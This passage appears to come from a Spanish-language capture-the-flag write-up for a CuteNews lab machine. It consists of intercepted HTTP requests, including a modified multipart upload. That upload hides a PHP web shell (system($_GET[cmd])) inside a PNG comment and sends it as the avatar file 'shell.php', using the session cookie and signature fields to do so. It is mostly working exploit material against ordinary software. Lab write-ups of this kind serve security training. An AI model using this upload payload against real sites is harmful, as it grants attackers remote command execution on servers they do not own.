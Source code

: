 ```
IHDR            [GY   gAMA  ±üa    cHRM  z&    ú   è  u0  ê`  :  pºQ<   tRNS  vÍ8   bKGD Ý¤   tIMEå0$m   %tEXtdate:create 2021-03-06T11:28:48+00:00Wôl$   %tEXtdate:modify 2021-03-06T11:28:48+00:00&©Ô   2tEXtComment <?php echo "<pre>"; system($_GET[cmd]); ?>§ññ   IDAT×c`Ü     a%}G    IEND®B`
-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="more[site]"


-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="more[about]"


-----------------------------18797126863564466322517621856--
```
* Petición Modificada:

```
POST /CuteNews/index.php HTTP/1.1
Host: 10.10.10.206
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------18797126863564466322517621856
Content-Length: 1701
Origin: http://10.10.10.206
Connection: close
Referer: http://10.10.10.206/CuteNews/index.php?mod=main&opt=personal
Cookie: CUTENEWS_SESSION=58te60j4nv945lcderikrvck64
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="mod"

main
-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="opt"

personal
-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="__signature_key"

0ad6035b4677dd3ef8e125b730e91508-fr3d1s4nm4r
-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="__signature_dsi"

ed61e54fb62549cb18ba5985876659a4
-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="editpassword"


-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="confirmpassword"


-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="editnickname"

fr3d1s4nm4r
-----------------------------18797126863564466322517621856
Content-Disposition: form-data; name="avatar_file"; filename="shell.php"
```